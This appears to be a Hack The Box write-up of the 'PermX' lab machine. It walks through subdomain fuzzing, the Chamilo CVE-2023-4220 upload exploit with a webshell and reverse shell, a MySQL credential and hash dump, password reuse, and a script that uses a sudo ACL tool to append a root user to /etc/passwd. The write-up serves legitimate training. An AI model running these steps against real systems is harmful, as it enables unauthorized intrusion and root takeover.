 ```yaml
---
title: HTB-PermX
draft: false
tags:
  - htb
  - linux
  - easy
  - ffuf
  - subdomain-bruteforce
  - chamilo
  - mysql
  - sudoers
  - bcrypt
  - acl
---
```

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/permx/PermX.png)

## Rustscan

Rustscan find SSH and HTTP running:

`rustscan --addresses permx.htb --range 1-65535`

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/permx/image-1.png)

## Enumeration
### HTTP - TCP 80

There's nothing special about `permx.htb`. Several forms are there, but not exploitable:

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/permx/image.png)

Feroxbuster discovers bunch of new directories but none of them seem very interesting:

`feroxbuster -u http://permx.htb`

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/permx/image-2.png)

Potential username is discovered. Let's see if this will come handy later:

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/permx/image-3.png)

Enumerating the subdomain using `ffuf`, `www.permx.htb` and `lms.permx.htb` are found:

`ffuf -u http://10.10.11.23 -c -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt -H 'Host: FUZZ.permx.htb' -fw 18`

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/permx/image-4.png)

Let's edit `/etc/hosts` to add the above.

### lms.permx.htb

`lms.permx.htb` is running Chamilo 1.0 login page:

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/permx/image-5.png)

On the bottom right side of the page, admin name is shown:

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/permx/image-6.png)

## Exploitation

Googling for Chamilo 1.0 exploit, it seems like I can attempt on RCE:

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/permx/image-7.png)

### CVE-2023-4220

Let's first the exploit git repository from [here](https://github.com/m3m0o/chamilo-lms-unauthenticated-big-upload-rce-poc).

`git clone https://github.com/m3m0o/chamilo-lms-unauthenticated-big-upload-rce-poc`

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/permx/image-8.png)

After everything is setup properly, scan to check the vulnerability. Exploit confirms the vulnerability:

`sudo python3 main.py -u http://lms.permx.htb -a scan`

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/permx/image-9.png)

There are two options.

First, I can spawn a webshell as such:

`sudo python3 main.py -u http://lms.permx.htb -a webshell`

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/permx/image-11.png)

I can send in commands through the webshell like below:

`http://lms.permx.htb/main/inc/lib/javascript/bigupload/files/webshell.php?cmd=whoami`

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/permx/image-10.png)

I can spawn a reverse shell as well:

`sudo python3 main.py -u http://lms.permx.htb -a revshell`

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/permx/image-12.png)

After inputting correct IP address and listening port, we get a shell as `www-data`:

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/permx/image-13.png)

## Privesc: www-data to mtz

It seems like `user.txt` is inside `mtz` user folder so we have to go escalate our privilege:

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/permx/image-14.png)

### Chamilo Conf

Looking into `/var/www/chamilo/app/config/configuration.php`, credentials for MySQL is revealed:

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/permx/image-15.png)

MySQL is running on port 3306 locally:

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/permx/image-16.png)

### MySQL

Let's list databases:

`mysql -u chamilo -p03F6lY3uXAP2bkW8 -e "SHOW DATABASES;"`

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/permx/image-17.png)

Since `chamilo` database seems interesting, I will list tables in it:

`mysql -u chamilo -p03F6lY3uXAP2bkW8 -e "SHOW TABLES;" chamilo`

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/permx/image-18.png)

Dumping `user` table information, I get password hashes:

`mysql -u chamilo -p03F6lY3uXAP2bkW8 -e "SELECT * FROM user;" chamilo`

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/permx/image-19.png)

| username | username_canonical | email                  | password                                                               | salt                                |
|----------|--------------------|------------------------|------------------------------------------------------------------------|--------------------------------------|
| admin    | admin              | admin@permx.htb        | $2y$04$1Ddsofn9mOaa9cbPzk0m6euWcainR.ZT2ts96vRCKrN7CGCmmq4ra           | awb0kMoTumbFvi22ojwv.Pg92gFTMOt837kWsGVbJN4 |
| anon     | anon               | anonymous@example.com  | $2y$04$wyjp2UVTeiD/jF4OdoYDquf4e7OWi6a3sohKRDe80IHAyihX0ujdS           | Mr1pyTT.C/oEIPb/7ezOdrCDKM.KHb0nrXAUyIyt/MY |

Before cracking bcrypt hash, I will remove any leading or trailing whitespace:

`sed -i 's/^[ \t]*//;s/[ \t]*$//' hash`

I tried cracking the hash, but it failed using rockyou.txt:

`hashcat -m 3200 hash ~/Downloads/rockyou.txt`

Turns out there was no need to crack the password and user `mtz`was using the password for the MySQL login. I can ssh in as user `mtz`:

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/permx/image-20.png)

## Privesc: mtz to root
### sudoers

Running `sudo -l`, `/opt/acl.sh` could be ran as `sudo` without needing any password:

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/permx/image-21.png)

Let's take a look at `acl.sh`:

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/permx/image-22.png)

`/opt/acl.sh`, is designed to modify the access control list (ACL) of a specified file using the `setfacl` command. ACLs allow you to set more granular file permissions than the standard Unix file permissions.

Below script performs several actions, primarily aimed at exploiting the ACL modification to gain unauthorized access by adding a new user with root privileges:

```bash
#!/bin/bash

# Create the soft link in home directory (passes both checks)
ln -sf /etc/passwd /home/mtz/passwd

# Run the script to allow read & write to the /etc/passwd
sudo /opt/acl.sh mtz rw /home/mtz/passwd

# Add a new user with the id of 0 (the password is: 123)
echo 'new:$1$new$p7ptkEKU1HnaHpRtzNizS1:0:0:root:/root:/bin/bash' >> /etc/passwd

# Remove the link
rm /home/mtz/passwd

# Log in ass the new user
su new
```

Running the script, we get a shell as the new root user and we can read `root.txt`:

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/permx/image-23.png)


## References
- https://github.com/m3m0o/chamilo-lms-unauthenticated-big-upload-rce-poc